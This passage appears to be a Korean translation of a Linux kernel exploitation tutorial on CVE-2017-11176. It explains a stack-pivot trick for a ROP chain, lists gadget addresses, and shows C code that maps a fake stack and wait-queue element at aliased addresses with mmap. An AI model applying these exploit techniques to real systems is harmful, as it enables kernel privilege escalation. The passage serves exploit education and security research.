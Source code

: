 이 예시의 경우 첫 번째 조건은 최하위 비트가 설정되어 있는 *NOP*  가젯을 사용하여 간단히 조건을 넘을 수 있다:

```asm
0xffffffff8100ae3d : nop ; nop ; nop ; ret    // <---- valid gadget
0xffffffff8100ae3e : nop ; nop ; ret          // <---- BAD GADGET
```

대신 **우리는 두 번째 방법을 적용해볼 것이다**. 이유는 두 번째 방법이 더 "흥미롭고", 덜 *gadget-dependent* 하고 익스플로잇하면서 가끔 쓰이는 방법을 보여주기 때문이다(*having addresses relative to each other*). 게다가 aliasing에 의한 제약이 줄기 때문에 ROP-chain에 사용할 가젯의 선택폭이 넓어진다.

우리의 (유저 영역의) wait queue element를 임의적인 위치에서 선언하기 위해선 *MAX\_FIXED*  인자를 통해 **mmap()** syscall을 사용해야 한다. "가짜 스택"을 위해서도 같은 일을 해줄 것이다. **둘 다 다음의 속성과 연결되어 있다(linked with):**

```plaintext
ULAND_WQ_ADDR = FAKE_STACK_ADDR + 0x100000000
```

다시 말하자면 이것이다:

```
(ULAND_WQ_ADDR & 0xffffffff) == FAKE_STACK_ADDR
 ^ pointed by RAX before XCHG   ^ pointed by RSP after XCHG
 ```
 
 이것은 *allocate\_uland\_structs()*  에 구현되어 있다:
 
 ```c
 static int allocate_uland_structs(void)
{
  // arbitrary value, must not collide with already mapped memory (/proc/<PID>/maps)
  void *starting_addr = (void*) 0x20000000;

  // ... cut ...

  g_fake_stack = (char*) _mmap(starting_addr, 4096, PROT_READ|PROT_WRITE,
    MAP_FIXED|MAP_SHARED|MAP_ANONYMOUS|MAP_LOCKED|MAP_POPULATE, -1, 0);

  // ... cut ...

  g_uland_wq_elt = (struct wait_queue*) _mmap(g_fake_stack + 0x100000000, 4096, PROT_READ|PROT_WRITE,
    MAP_FIXED|MAP_SHARED|MAP_ANONYMOUS|MAP_LOCKED|MAP_POPULATE, -1, 0);

  // ... cut ...
}
```

**주의**: *MAP_FIXED* 를 사용하는 것은 존재하는 메모리를 "overlap"할 수 있다! 더 나은 implementation을 위해선 *starting_addr*  주소가 이미 쓰이지 않았는지(예 : */proc/&lt;PID>/maps* 체크) 확인해야 한다. *mmap()*  syscall 구현 방식(implementation)을 보면 많은 것을 배울 수 있다. **훌륭한** 연습거리다.

"스택 피벗 가젯"을 실행한 후의 익스플로잇 메모리 레이아웃은 다음과 같아질 것이다:

![Aliasing Tricks](https://blog.lexfo.fr/images/cve-2017-11176-linux/aliasing.png)

익스플로잇 코드를 업데이트해보자(주의: *g_uland_wq_elt* 는 이제 포인터이므로 코드를 알맞게 수정하라):

